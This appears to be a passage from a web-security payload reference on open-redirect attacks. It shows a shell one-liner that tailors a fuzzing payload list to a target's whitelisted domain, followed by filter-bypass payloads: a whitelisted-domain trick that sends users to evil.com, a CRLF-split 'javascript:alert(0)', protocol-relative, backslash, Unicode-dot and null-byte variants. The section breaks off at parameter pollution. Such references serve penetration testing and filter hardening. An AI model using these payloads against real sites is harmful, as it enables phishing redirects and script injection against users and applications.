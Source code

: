## Fuzzing

Replace www.whitelisteddomain.tld from *Open-Redirect-payloads.txt* with a specific white listed domain in your test case

To do this simply modify the WHITELISTEDDOMAIN with value www.test.com to your test case URL.

```powershell
WHITELISTEDDOMAIN="www.test.com" && sed 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt
```

## Filter Bypass

Using a whitelisted domain or keyword

```powershell
www.whitelisted.com.evil.com redirect to evil.com
```

Using CRLF to bypass "javascript" blacklisted keyword

```powershell
java%0d%0ascript%0d%0a:alert(0)
```

Using "//" to bypass "http" blacklisted keyword

```powershell
//google.com
```

Using "https:" to bypass "//" blacklisted keyword

```powershell
https:google.com
```

Using "\/\/" to bypass "//" blacklisted keyword (Browsers see \/\/ as //)

```powershell
\/\/google.com/
/\/google.com/
```

Using "%E3%80%82" to bypass "." blacklisted character

```powershell
/?redir=google。com
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```powershell
//google%00.com
```

Using parameter pollution
